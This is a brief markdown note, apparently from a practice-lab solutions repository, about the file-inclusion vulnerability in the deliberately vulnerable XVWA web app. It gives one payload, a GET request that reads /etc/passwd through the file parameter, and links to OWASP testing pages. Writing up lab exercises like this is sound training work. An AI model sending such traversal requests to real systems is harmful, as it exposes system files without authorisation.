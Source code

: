 # File Inclusion


## Input
Payload: `GET /xvwa/vulnerabilities/fi/?file=/etc/passwd`
Output: passwd file content

## References
https://github.com/rudSarkar/xvwa-solution/blob/master/file-inclusion-xvwa.md
https://wiki.owasp.org/index.php/Testing_for_Local_File_Inclusion
https://wiki.owasp.org/index.php/Testing_for_Remote_File_Inclusion
